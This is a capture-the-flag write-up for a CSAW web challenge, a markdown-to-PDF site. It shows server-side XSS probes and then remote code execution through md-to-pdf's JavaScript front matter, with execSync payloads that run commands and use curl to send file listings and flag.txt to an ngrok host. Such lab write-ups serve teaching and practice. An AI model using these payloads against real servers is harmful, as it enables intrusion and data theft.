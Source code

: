 ```yaml
---
Category: WEB | 148 pts - 204 Solves
---
```


# My little website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
> [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a pdf rendering website, we can inject markdown or maybe...javascript.\
First thing, check for XSS:

```javascript
<script> document.write(window.location) </script>
```

<figure><img src="/assets/1.png" alt=""><figcaption></figcaption></figure>

Ok, vulnerable, actually, it's Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application. \
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```

<figure><img src="/assets/2.png" alt=""><figcaption></figcaption></figure>

We're inside /chal directory, node.js webapp, but index.js seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```

<figure><img src="/assets/3.png" alt=""><figcaption></figcaption></figure>

That's a lot of info, but what's most important is the `mdToPdf` package, with a quick search we'll know that we can do RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="/assets/4.png" alt=""><figcaption></figcaption></figure>

No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="/assets/5.png" alt=""><figcaption></figcaption></figure>

Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="/assets/6.png" alt=""><figcaption></figcaption></figure>

> CTF{pdf\_c0nt1nu3s\_70\_5uCK}
